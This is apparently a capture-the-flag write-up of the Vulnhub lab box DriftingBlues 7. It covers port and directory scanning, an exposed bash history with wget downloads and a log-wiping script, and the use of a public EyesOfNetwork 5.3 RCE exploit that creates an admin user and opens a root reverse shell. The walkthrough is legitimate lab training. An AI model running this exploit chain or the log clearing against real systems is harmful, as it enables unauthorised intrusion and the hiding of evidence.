



DriftingBlues 7 is an easy boot2root box from Vulnhub. It can be found here: [https://www.vulnhub.com/entry/driftingblues-7,680/](https://www.vulnhub.com/entry/driftingblues-7,680/). There is one flag to find in the root directory. Just a heads up, after rooting I read some other write ups because my path to root didn’t seem like the intended route. All the other ones had the same route, so I figure it was just made to be an easy box if you didn’t get stuck down a rabbit hole.

## Enumeration

The first step was to run a full nmap scan:

~/Documents/vulnhub/driftingBlues » nmap -p- -A -v 10.0.2.6 -oA nmap/allPorts
Nmap scan report for 10.0.2.6
Host is up (0.00052s latency).
Not shown: 65527 closed ports
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 c4:fa:e5:5f:88:c1:a1:f0:51:8b:ae:e3:fb:c1:27:72 (RSA)
|   256 01:97:8b:bf:ad:ba:5c:78:a7:45:90:a1:0a:63:fc:21 (ECDSA)
|\_  256 45:28:39:e0:1b:a8:85:e0:c0:b0:fa:1f:00:8c:5e:d1 (ED25519)
66/tcp   open  http            SimpleHTTPServer 0.6 (Python 2.7.5)
| http-methods: 
|\_  Supported Methods: GET HEAD
|\_http-server-header: SimpleHTTP/0.6 Python/2.7.5
|\_http-title: Scalable Cost Effective Cloud Storage for Developers
80/tcp   open  http            Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod\_fcgid/2.3.9 PHP/5.4.16 mod\_perl/2.0.11 Perl/v5.16.3)
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod\_fcgid/2.3.9 PHP/5.4.16 mod\_perl/2.0.11 Perl/v5.16.3
|\_http-title: Did not follow redirect to https://10.0.2.6/
111/tcp  open  rpcbind         2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|\_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http        Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod\_fcgid/2.3.9 PHP/5.4.16 mod\_perl/2.0.11 Perl/v5.16.3)
| http-methods: 
|\_  Supported Methods: GET HEAD POST OPTIONS
|\_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod\_fcgid/2.3.9 PHP/5.4.16 mod\_perl/2.0.11 Perl/v5.16.3
| http-title: EyesOfNetwork
|\_Requested resource was /login.php##
| ssl-cert: Subject: commonName=localhost/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-03T14:37:22
| Not valid after:  2022-04-03T14:37:22
| MD5:   a0b3 3036 eb25 e23f 3eea 933d 13cd af6a
|\_SHA-1: bb62 831f 6882 89bf dda2 52d6 d95a 6402 adbf f0e9
|\_ssl-date: TLS randomness does not represent time
2403/tcp open  taskmaster2000?
3306/tcp open  mysql           MariaDB (unauthorized)
8086/tcp open  http            InfluxDB http admin 1.7.9
|\_http-title: Site doesn't have a title (text/plain; charset=utf-8).

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 30 20:04:36 2021 -- 1 IP address (1 host up) scanned in 145.57 seconds

There’s 8 ports open. My thought was to start with the 4 HTTP ports, as you can usually get some good information from this. I started at port 66, which looked like this:

It’s a cloud storage platform. I looked around the site a bit, but nothing jumped out. I ran `dirb` and it showed something weird:

~/Documents/vulnhub/driftingBlues » dirb http://10.0.2.6:66 -o 66Dirb.txt                                      

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

OUTPUT\_FILE: 66Dirb.txt
START\_TIME: Thu Dec 30 20:10:14 2021
URL\_BASE: http://10.0.2.6:66/
WORDLIST\_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.0.2.6:66/ ----
+ http://10.0.2.6:66/.bash\_history (CODE:200|SIZE:319)                                                               
+ http://10.0.2.6:66/index.htm (CODE:200|SIZE:17477)                                                                 
+ http://10.0.2.6:66/index\_files (CODE:301|SIZE:0)                                                                   

-----------------
END\_TIME: Thu Dec 30 20:10:21 2021
DOWNLOADED: 4612 - FOUND: 3

There’s a .bash\_history file accessible on the site. I downloaded the file and checked it out:

~/Documents/vulnhub/driftingBlues/sixSix » cat bash\_history 
nano /etc/issue
nano /etc/hosts
nano /etc/hostname
ls
crontab -e
ls
rm index.htm 
wget 192.168.2.43:81/db7i.htm
mv db7i.htm index.htm
nano /etc/hostname
nano /etc/hosts
ls
wget 192.168.2.43:81/logdel2
bash logdel2
wget 192.168.2.43:81/root.txt
mv root.txt flag.txt
nano flag.txt
ls
shutdown -h now
ip a
shutdown -h now

There’s a couple files we can see here. One called logdel2, which we can access on the website. It was a script to clear all the log files, which is good to know about but not helpful now. The db7i file we can’t access, so we’ll ignore that for now. The last, and most interesting file is the copying of a file called root.txt to a file called flag.txt. Curling this showed a possible flag:

~/Documents/vulnhub/driftingBlues/sixSix » curl http://10.0.2.6:66/flag.txt
flag 1/1
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!

We got what looks like the flag, but since we still don’t have code execution we’ll keep going. The next port was 80/443. I’m combining them because going to 80 redirected you to 443. Pulling this up showed some login page for a product called Eyes of Network:

After running `dirb` and `nikto` against it, nothing crazy jumped out. I looked for default login credentials online, and found a script from exploit-db about RCE: [https://www.exploit-db.com/exploits/48025](https://www.exploit-db.com/exploits/48025). It looks like it can either create a new user on the site, or just spawn a shell.

## Exploitation

Because this script seems like a possible quick win, I downloaded the script and tried it:

~/Documents/vulnhub/driftingBlues » python3 eyesExpl.py -h                                       
usage: 
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac Twitter: @h4knet                                   |
|                                                                             |
| Examples:                                                                   |
| eonrce.py -h                                                                |
| eonrce.py http(s)://EyesOfNetwork-URL                                       |
| eonrce.py https://eon.thinc.local -ip 10.11.0.182 -port 3128                |
| eonrce.py https://eon.thinc.local -ip 10.11.0.182 -user pentest2020         |
+-----------------------------------------------------------------------------+

positional arguments:
  URL                 URL of the EyesOfNetwork server

optional arguments:
  -h, --help          show this help message and exit
  -ip IP              Local IP to receive reverse shell
  -port Port          Local port to listen
  -user Username      Name of the new user to create
  -password Password  Password of the new user
-----------------------------------------------------------------------------------------------------------------------
~/Documents/vulnhub/driftingBlues » python3 eyesExpl.py https://10.0.2.6 -ip 10.0.2.15 -port 8888
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac Twitter: @h4knet                                  |
+-----------------------------------------------------------------------------+

\[\*\] EyesOfNetwork login page found
\[\*\] EyesOfNetwork API page found. API version: 2.4.2
\[+\] Admin user key obtained: 4666f98686b0e37382df1549cd803bc55777c73b6e75266399d0c32a1ad5cfbd
\[+\] New user h4ker successfully created. ID:2
\[+\] Successfully authenticated
\[+\] Discovery job successfully created with ID: 1&review=1" id="completemsg" style="display: none;">

              Auto-Discovery Complete.  Click to Continue To Reviewing Found Devices
              

</a>
\[\*\]  Spawning netcat listener: 
listening on \[10.0.2.15\] 8888 ...
connect to \[10.0.2.15\] from (UNKNOWN) \[10.0.2.6\] 54364
sh: no job control in this shell
sh-4.2# id
id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# pwd
pwd
/srv/eyesofnetwork/lilac/autodiscovery
sh-4.2# cd /
cd /
sh-4.2# cd root
cd root
sh-4.2# ls
ls
anaconda-ks.cfg
eon
flag.txt
index.htm
index\_files
logdel2
upit.sh
sh-4.2# cat flag.txt
cat flag.txt
flag 1/1
░░░░░░▄▄▄▄▀▀▀▀▀▀▀▀▄▄▄▄▄▄▄
░░░░░█░░░░░░░░░░░░░░░░░░▀▀▄
░░░░█░░░░░░░░░░░░░░░░░░░░░░█
░░░█░░░░░░▄██▀▄▄░░░░░▄▄▄░░░░█
░▄▀░▄▄▄░░█▀▀▀▀▄▄█░░░██▄▄█░░░░█
█░░█░▄░▀▄▄▄▀░░░░░░░░█░░░░░░░░░█
█░░█░█▀▄▄░░░░░█▀░░░░▀▄░░▄▀▀▀▄░█
░█░▀▄░█▄░█▀▄▄░▀░▀▀░▄▄▀░░░░█░░█
░░█░░░▀▄▀█▄▄░█▀▀▀▄▄▄▄▀▀█▀██░█
░░░█░░░░██░░▀█▄▄▄█▄▄█▄▄██▄░░█
░░░░█░░░░▀▀▄░█░░░█░█▀█▀█▀██░█
░░░░░▀▄░░░░░▀▀▄▄▄█▄█▄█▄█▄▀░░█
░░░░░░░▀▄▄░░░░░░░░░░░░░░░░░░░█
░░▐▌░█░░░░▀▀▄▄░░░░░░░░░░░░░░░█
░░░█▐▌░░░░░░█░▀▄▄▄▄▄░░░░░░░░█
░░███░░░░░▄▄█░▄▄░██▄▄▄▄▄▄▄▄▀
░▐████░░▄▀█▀█▄▄▄▄▄█▀▄▀▄
░░█░░▌░█░░░▀▄░█▀█░▄▀░░░█
░░█░░▌░█░░█░░█░░░█░░█░░█
░░█░░▀▀░░██░░█░░░█░░█░░█
░░░▀▀▄▄▀▀░█░░░▀▄▀▀▀▀█░░█

congratulations!

sh-4.2#

So it really was that easy. The fact that we could read the root flag from the port 66 website and the fact the Eyes of Network program was running as root are both bad, but made this box way easier.

Just as an exercise, I tried using the exploit to create a new user and log into Eyes of Network to see what the actual platform looks like:

~/Documents/vulnhub/driftingBlues » python3 eyesExpl.py https://10.0.2.6 -ip 10.0.2.15 -user test -password pass 
+-----------------------------------------------------------------------------+
| EyesOfNetwork 5.3 RCE (API v2.4.2)                                          |
| 02/2020 - Clément Billac Twitter: @h4knet                                  |
+-----------------------------------------------------------------------------+

\[\*\] EyesOfNetwork login page found
\[\*\] EyesOfNetwork API page found. API version: 2.4.2
\[+\] Admin user key obtained: 4666f98686b0e37382df1549cd803bc55777c73b6e75266399d0c32a1ad5cfbd
\[+\] New user test successfully created. ID:3
\[+\] Successfully authenticated
\[+\] Discovery job successfully created with ID: 3&review=1" id="completemsg" style="display: none;">

              Auto-Discovery Complete.  Click to Continue To Reviewing Found Devices
              

</a>
\[\*\]  Spawning netcat listener: 
listening on \[10.0.2.15\] 443 ...
connect to \[10.0.2.15\] from (UNKNOWN) \[10.0.2.6\] 40010
sh: no job control in this shell
sh-4.2# exit
exit
exit

\[\*\] Job 3&review=1" id="completemsg" style="display: none;">

              Auto-Discovery Complete.  Click to Continue To Reviewing Found Devices
              

</a> removed

It looks like an infrastructure monitoring service, which I guess makes sense with a name like Eyes of Network:

